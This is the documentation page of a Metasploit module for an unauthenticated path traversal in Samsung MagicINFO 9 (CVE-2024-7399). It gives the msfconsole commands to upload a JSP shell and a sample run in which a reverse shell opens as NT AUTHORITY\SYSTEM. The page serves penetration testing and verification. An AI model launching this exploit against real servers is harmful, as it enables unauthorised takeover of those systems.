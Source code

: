 ## Vulnerable Application

**Vulnerability Description**

This module exploits a path traversal vulnerability in Samsung MagicINFO 9 <= 21.1050.0 (CVE-2024-7399).

Remote code execution can be obtained by exploiting the path traversal vulnerability (CVE-2024-7399) in the SWUpdateFileUploader servlet,
which can be queried by an unauthenticated user to upload a JSP shell.
By default, the application listens on TCP ports 7001 (HTTP) and 7002 (HTTPS) on all network interfaces and runs in the context of NT
AUTHORITY\SYSTEM.

**Vulnerable Application Installation**

A trial version of the software can be obtained from [the vendor]
(https://www.samsung.com/us/business/solutions/digital-signage-solutions/magicinfo/).

**Successfully tested on**

- MagicINFO 9 21.1040.2 on Windows 10 (22H2)

## Verification Steps

1. Install Postgres or MySQL
2. Install the application
3. Activate the license
4. Start `msfconsole` and run the following commands:

```
msf > use exploit/windows/http/magicinfo_traversal 
msf exploit(windows/http/magicinfo_traversal) > set RHOSTS <IP>
msf exploit(windows/http/magicinfo_traversal) > exploit 
```

You should get a shell in the context of `NY AUTHORITY\SYSTEM`.

## Options

### DEPTH
The traversal depth. The FILE path will be prepended with ../ * DEPTH.

## Scenarios

Running the exploit against MagicINFO 9 21.1040.2 on Windows 10 should result in an output similar to the
following:

```
msf exploit(windows/http/magicinfo_traversal) > exploit 

[*] Started reverse TCP handler on 192.168.137.204:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] MagicINFO version detected: MagicINFO 9 Server 21.1040.2
[+] The target appears to be vulnerable.
[*] Uploading payload...
[*] Upload successful
[*] Payload executed!
[*] Command shell session 3 opened (192.168.137.204:4444 -> 192.168.137.230:50038) at 2025-05-14 17:36:47 -0400


Shell Banner:
Microsoft Windows [Version 10.0.19045.3208]
(c) Microsoft Corporation. All rights reserved.

C:\MagicInfo Premium\tomcat\bin>
-----
          

C:\MagicInfo Premium\tomcat\bin>whoami
whoami
nt authority\system

C:\MagicInfo Premium\tomcat\bin>
```
